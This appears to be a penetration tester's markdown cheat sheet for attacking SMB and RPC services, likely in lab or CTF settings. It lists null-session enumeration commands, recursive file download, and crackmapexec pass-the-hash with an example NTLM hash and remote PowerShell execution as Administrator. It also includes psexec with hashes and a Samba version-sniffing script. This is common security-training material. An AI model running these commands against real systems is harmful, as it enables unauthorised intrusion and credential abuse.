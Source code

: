 Samba

# FOR SMB and RPC stuff, use the IP in parameters, not the name you use in etc hosts to not having any trouble

## Checklist 

- Use nse scripts of nmap

- ```smbclient -L \\\\<ip>\\<share>```

- ```smbclient \\\\<ip>\\<share name>```
      
- ```enum4linux-ng```

- ```nullinux```

- ```nbtscan -r 192.168.11.0/24```

- ```smbmap -H 10.10.10.125 -u 'user'```

- ```nmblookup -A ip```

- ```smbclient -W '' //ip/ipc$ -U''%'' -c 'help'``` 

- ```rpcclient -W '' -U''%'' ip -c 'lsaquery'```

- ```smbclient -W '' //ip/ipc$ -U''%'' -c 'q' ```

- ```rpcclient -W '' -c querydispinfo -U''%'' ip``` 

- ```rpcclient -W '' -c enumdomusers -U ''%'' ip```


---

## smbclient :

- Download files : 
```
prompt off
recurse on
mget *
```

- execute command : ```smbclient ... -c 'cd C.Smith; get password.txt'```
- to don't have problems with space, add "" : ```-c 'cd C.Smith\"HQ Reporting"\; get "new password.txt"```
- alternate data streams (ads) : ```-c 'allinfo <file>'```

- If you have new user, re enumerate everything.



## PASSWORD_MUST_CHANGE

- ```smbpasswd -U \<user\> -r <ip>```


## crackmapexec :

- ```cme smb -L``` :print modules for smb protocol
- ```cme smb -h``` : print options available for the protocol
- Example : ``` cme smb -u pentest -p 'P3nT3st' -M uac 10.10.10.152```


- To connect with the hash :
```-H <Samhash(secondone)> -U <user>```
or ```-H <LMHASH:NTHASH> (the two hashes) -U user```

- Execute things on the remote host (Be careful ! when the result is too long, you have not the entire result)

```-x``` for cmd
```-X``` for cmd in powershell
example :
```sudo cme smb 10.10.10.152 -u Administrator -H d0f73603a4d96655430fdf02de4afaee -x 'powershell.exe -command "ps"'```


---

## Cmd when you have the right permissions : 

psexec Adminitrator@10.10.10.152 -hashes '<LMHASH:NTHASH>'


--- 

## Find version of Samba 

Script with ngrep :

```
#!/bin/sh
#Author: rewardone
#Description:
#Requires root or enough permissions to use tcpdump
#Will listen for the first 7 packets of a null login
#and grab the SMB Version
#Notes:
#Will sometimes not capture or will print multiple
#lines. May need to run a second time for success.
if [ -z $1 ]; then echo "Usage: ./smbver.sh RHOST {RPORT}" && exit; else rhost=$1; fi
if [ ! -z $2 ]; then rport=$2; else rport=139; fi
tcpdump -s0 -n -i tap0 src $rhost and port $rport -A -c 7 2>/dev/null | grep -i "samba\|s.a.m" | tr -d '.' | grep -oP 'UnixSamba.*[0-9a-z]' | tr -d '\n' & echo -n "$rhost: " &
echo "exit" | smbclient -L $rhost 1>/dev/null 2>/dev/null
sleep 0.5 && echo ""
```
``` ./smbver.sh <IP>```


---

## Wireshark and SMB in Windows

Windows SMB is more complex than just a version, but looking in wireshark will give a bunch of information about the  connection. We can filter on ntlmssp.ntlmv2_response to see NTLMv2 traffic, for example.

---

## Access to a file is difficult ?

Try to access to it in web browser

---









 